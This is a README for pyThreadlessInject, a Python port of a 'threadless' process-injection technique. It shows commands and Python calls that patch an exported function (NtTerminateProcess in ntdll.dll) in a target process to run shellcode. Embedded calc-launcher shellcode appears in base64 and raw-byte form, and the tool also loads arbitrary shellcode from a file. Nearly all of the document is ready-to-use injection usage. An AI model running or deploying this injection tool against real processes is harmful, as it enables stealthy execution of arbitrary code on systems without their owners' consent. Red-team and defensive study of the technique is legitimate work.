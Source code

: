 # pyThreadlessInject

A python port of CCob's [ThreadlessInject](https://github.com/CCob/ThreadlessInject), because why should C# have all the fun?!

## Commandline usage

### Help

```cmd
python .\threadlessinject.py -h
```

### Basic execution (uses calc.exe shellcode by default)

```cmd
python .\threadlessinject.py -d ntdll.dll -e NtTerminateProcess -p 10184 
```

### Executing base64 encoded shellcode

```cmd
python .\threadlessinject.py -d ntdll.dll -e NtTerminateProcess -p 10184 -r U1ZXVVRYZoPk8FBqYFpoY2FsY1RZSCnUZUiLMkiLdhhIi3YQSK1IizBIi34wA1c8i1wXKIt0HyBIAf6LVB8kD7csF41SAq2BPAdXaW5Fde+LdB8cSAH+izSuSAH3mf/XSIPEaFxdX15bww==
```

### Executing shellcode from file

```cmd
python .\threadlessinject.py -d ntdll.dll -e NtTerminateProcess -p 10184 -f c:\Users\IEUser\Downloads\shellcode.bin
```

## Programmatic usage

### Basic execution (uses calc.exe shellcode by default, and wait time of 60 seconds)

```python
import threadlessinject
dll = b'ntdll.dll'
export = b'NtTerminateProcess'
pid = 10184
threadlessinject.threadlessInject(dll, export, pid)
```

### Executing shellcode with custom wait time (only accept raw bytes of shellcode)

```python
import threadlessinject
dll = b'ntdll.dll'
export = b'NtTerminateProcess'
pid = 10184
wait = 120
shellcode = b"\x53\x56\x57\x55\x54\x58\x66\x83\xE4\xF0\x50\x6A\x60\x5A\x68\x63\x61\x6C\x63\x54\x59\x48\x29\xD4\x65\x48\x8B\x32\x48\x8B\x76\x18\x48\x8B\x76\x10\x48\xAD\x48\x8B\x30\x48\x8B\x7E\x30\x03\x57\x3C\x8B\x5C\x17\x28\x8B\x74\x1F\x20\x48\x01\xFE\x8B\x54\x1F\x24\x0F\xB7\x2C\x17\x8D\x52\x02\xAD\x81\x3C\x07\x57\x69\x6E\x45\x75\xEF\x8B\x74\x1F\x1C\x48\x01\xFE\x8B\x34\xAE\x48\x01\xF7\x99\xFF\xD7\x48\x83\xC4\x68\x5C\x5D\x5F\x5E\x5B\xC3"
threadlessinject.threadlessInject(dll, export, pid, waitTime=wait, shellcodeBytes=shellcode)
```

## Commandline args

- -h/--help&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;`Provides help menu`
- -d/--dll&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; `The DLL that that contains the export to patch (must be KnownDll)`
- -e/--export&nbsp; &nbsp; &nbsp; `The exported function that will be hijacked`
- -p/--pid&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;`Target process ID to inject`
- -w/--wait&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;`Time to wait for execution before cleanup will be abandoned`
- -r/--raw&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;`Base64 for x64 shellcode payload (default: calc launcher)`
- -f/--file&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; `File for x64 shellcode payload (default: calc launcher)`

## Gotchas

As mentioned in the last programmatic example, when the shellcodeBytes arg is supplied, it must be the bytes of the actual shellcode to be injected, when calling threadlessinject from cmd it converts the raw or file arguments into the shellcode needed for execution.

## Thanks

[CCob](https://github.com/CCob) for the [ThreadlessInject](https://github.com/CCob/ThreadlessInject) project, which this is ported from

[Rasta Mouse](https://github.com/rasta-mouse) for their work on [ThreadlessInject](https://github.com/CCob/ThreadlessInject) as well

[natesubra](https://github.com/natesubra) for showing me the [ThreadlessInject](https://github.com/CCob/ThreadlessInject) project in the first place, such a cool project I wanted to try and understand it better, hence this repo
